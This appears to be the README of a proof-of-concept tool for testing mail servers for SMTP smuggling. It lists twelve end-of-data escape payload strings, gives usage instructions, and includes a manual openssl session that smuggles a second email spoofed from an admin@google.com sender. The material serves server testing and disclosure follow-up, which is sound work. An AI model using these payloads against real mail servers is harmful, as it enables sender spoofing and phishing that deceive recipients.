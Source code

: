 # smtp_smuggling_checker.py
### smtp smuggling testing tool with tls / starttls support

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3

<hr>

### Testing of postfix mailserver for example (localhost port 25 auth plain login(optinal)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)


#### Testing these 12 payload strings:
```bash
#Smgggling Strings (0-11):
#smtp_smuggle_escape = '\r\n.\r'
#smtp_smuggle_escape = '\r.\r'
#smtp_smuggle_escape = '\r\n\x00.\r'
#smtp_smuggle_escape = '\r\n\x00.\n'
#smtp_smuggle_escape = \r\n\x00.\r\n
#smtp_smuggle_escape = \r\n.\x00\r\n
#smtp_smuggle_escape = '\r\n.'
#smtp_smuggle_escape = \n.\r\n
#smtp_smuggle_escape = \r.\r\n
#smtp_smuggle_escape = \n\n.\r\n
#smtp_smuggle_escape = \r\n.\r
#smtp_smuggle_escape = \n.\n
```

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

    
usage: smtp_amuggler_pox.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE]

Send mail with TLS und AUTH PLAIN.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-Servername DNS or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
```

<hr>

### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!
#
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@server.com --rcpt vic@server.com --mode def
```

<hr>

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

